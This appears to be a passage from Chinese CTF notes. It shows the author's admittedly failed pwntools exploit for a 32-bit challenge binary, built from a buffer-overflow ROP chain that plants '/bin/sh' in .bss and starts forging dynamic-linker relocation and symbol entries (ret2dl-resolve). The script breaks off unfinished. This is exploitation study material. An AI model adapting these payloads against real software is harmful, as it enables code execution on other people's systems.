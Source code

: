 ### 关于传参

我的一个失败的exp：
```
#!/usr/bin/env python
# coding=utf-8
from pwn import *

slog = 1
local = 1
debug = 0

global p

if slog: context(log_level = 'debug')
if local:
    p = process('./infoless')
else:
    p = remote()

if local and debug:
    gdb.attach(p, open('debug'))


elf = ELF('./infoless')

offset = 22
# .rel.plt  reloc = reloc + .rel.plt , fake reloc_args to locate reloc on bss

# .dynsym   sym = .dynsym + reloc->info , fake reloc->info to locate sym on bss

# .dynstr   name = .dynstr + sym->value, fake sym->value to locate name on bss

#  name_str fake name_str on bss

pr = 0x08048361
relplt_addr = 0x8048320
vuln_addr = 0x80484CB
plt_addr = 0x8048370
bss_addr = 0x8049820
dynsym_addr = 0x80481bc
dynstr_addr = 0x0804825c
read_plt = elf.symbols['read']

def pwn():
    print 'bss_addr => ', hex(bss_addr)

    # send /bin/sh
    addr = bss_addr
    payload1 = offset * 'a' + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(100)
    p.sendline(payload1)
    payload2 = '/bin/sh\x00'.ljust(20, 'a')
    p.sendline(payload2)
    
    # fake .rel.plt on bss
    # 0x0804970c      0x00000107
    addr += len(payload2)
    payload1 = offset * 'a' + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(addr) + p32(100)
#    gdb.attach(p, open('debug'))
    p.sendline(payload1)
    print 'addr - relplt_addr => ', hex(addr - relplt_addr)
    off = ((addr - dynsym_addr) / 0x10 + 1) * 0x100 + 0x7
    print 'off => ', hex(off)
```